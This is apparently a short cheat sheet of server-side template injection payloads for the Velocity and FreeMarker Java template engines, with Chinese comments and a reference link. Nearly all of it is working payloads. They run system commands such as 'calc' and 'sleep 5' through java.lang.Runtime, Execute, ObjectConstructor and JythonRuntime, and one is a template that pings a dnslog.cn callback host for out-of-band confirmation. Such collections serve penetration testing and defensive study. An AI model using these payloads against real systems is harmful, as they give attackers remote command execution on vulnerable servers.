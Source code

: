 ## Velocity

```python
http://127.0.0.1:8080/ssti/velocity?template=%23set(%24e=%22e%22);%24e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22calc%22)$class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor() //延迟了5秒
```

## FreeMark

```python
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}

<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()

<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>

{"hello.ftl": "<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"ping ilxwh0.dnslog.cn\") }<title>Hello!</title><link href=\"/css/main.css\" rel=\"stylesheet\"></head><body><h2 class=\"hello-title\">Hello!</h2><script src=\"/js/main.js\"></script></body></html>"}
```



参考

 https://www.cnblogs.com/bmjoker/p/13508538.html 